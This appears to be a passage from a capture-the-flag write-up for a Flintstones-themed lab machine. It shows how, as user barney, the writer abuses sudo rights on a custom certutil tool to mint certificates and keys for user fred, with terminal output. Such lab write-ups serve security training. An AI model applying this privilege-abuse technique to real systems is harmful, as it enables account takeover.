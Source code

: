 ## Become Fred

### Intended Path

Some quick enumeration as Barney leads us to that `/usr/share/abc` path that was leaked by the webserver. Here we find the `certs` folder with some additional certificate files, including certs for Fred. Unfortunately we can’t read them directly. We do, however, have `sudo` power for the `certutil` application - so perhaps we can simply make our own certificates for Fred. 

The `certutil` application doesn’t seem to take the command line parameters we expect. 

```terminal
certutil -h
                                                                                                                     
Cert Tool Usage:                                                                                                     
----------------                                                                                                     
                                                                                                                     
Show current certs:                                                                                                  
  certutil ls                                                                                                        
                                                                                                                     
Generate new keypair:                                                                                                
  certutil [username] [fullname]
```

Investigating further we find that it isn’t the standard package but rather it eventually runs the `certs.js` program in `/usr/share/abc/dist`. 

We run it as:

`sudo /usr/bin/certutil fred "Fred Flintstone" > /tmp/fred.txt` 

We can see by the timestamps that we’ve updated the certificate file on the server.  we’ve also extracted copies for ourself in `fred.txt`. 

```terminal
(remote) barney@b3dr0ck:/usr/share/abc$ ls -la certs
total 56
drwxrwxr-x 2 root root 4096 Apr 30  2022 .
drwxrwxr-x 8 root root 4096 Apr 29  2022 ..
-rw-r----- 1 root root  972 Aug 11 16:38 barney.certificate.pem
-rw-r----- 1 root root 1678 Aug 11 16:38 barney.clientKey.pem
-rw-r----- 1 root root  894 Aug 11 16:38 barney.csr.pem
-rw-r----- 1 root root 1678 Aug 11 16:38 barney.serviceKey.pem
-rw-r----- 1 root root  976 Aug 11 16:47 fred.certificate.pem
-rw-r----- 1 root root 1678 Aug 11 16:47 fred.clientKey.pem
-rw-r----- 1 root root  898 Aug 11 16:47 fred.csr.pem
-rw-r----- 1 root root 1678 Aug 11 16:47 fred.serviceKey.pem
-rw-r----- 1 root root  992 Aug 11 16:37 server.certificate.pem
-rw-r----- 1 root root 1678 Aug 11 16:37 server.clientKey.pem
-rw-r----- 1 root root  890 Aug 11 16:37 server.csr.pem
-rw-r----- 1 root root 1678 Aug 11 16:37 server.serviceKey.pem
```
